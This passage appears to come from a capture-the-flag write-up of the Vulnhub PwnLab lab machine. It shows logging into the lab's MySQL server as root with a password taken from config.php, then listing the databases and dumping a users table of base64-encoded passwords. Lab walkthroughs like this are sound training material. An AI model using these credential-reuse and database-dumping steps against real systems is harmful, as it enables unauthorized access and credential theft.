 Let’s log into the server using MySQL

    mysql -u root -p -h 192.168.0.126

The `-u` is username 
The `-p` is the password (which we’ll provide later); and 
The `-h` is host

`Enter password:`
Enter the password that we just decoded from config.php

![9](https://github.com/omarMahmood05/Vulnhub---PwnLab---Markup/assets/86721437/84e3a428-634c-4343-a99b-ba69f0866175)


We’re in the database now. 

Let’s try to get some more information.

    MySQL [(none)]> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | Users              |
    +--------------------+
    2 rows in set (0.001 sec)

---

    MySQL [(none)]> use Users;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
    
    Database changed
    MySQL [Users]> 

---

    Database changed
    MySQL [Users]> show tables;
    +-----------------+
    | Tables_in_Users |
    +-----------------+
    | users           |
    +-----------------+
    1 row in set (0.001 sec)
---

    MySQL [Users]> select * from users;
    +------+------------------+
    | user | pass             |
    +------+------------------+
    | kent | Sld6WHVCSkpOeQ== |
    | mike | U0lmZHNURW42SQ== |
    | kane | aVN2NVltMkdSbw== |
    +------+------------------+
    3 rows in set (0.018 sec)
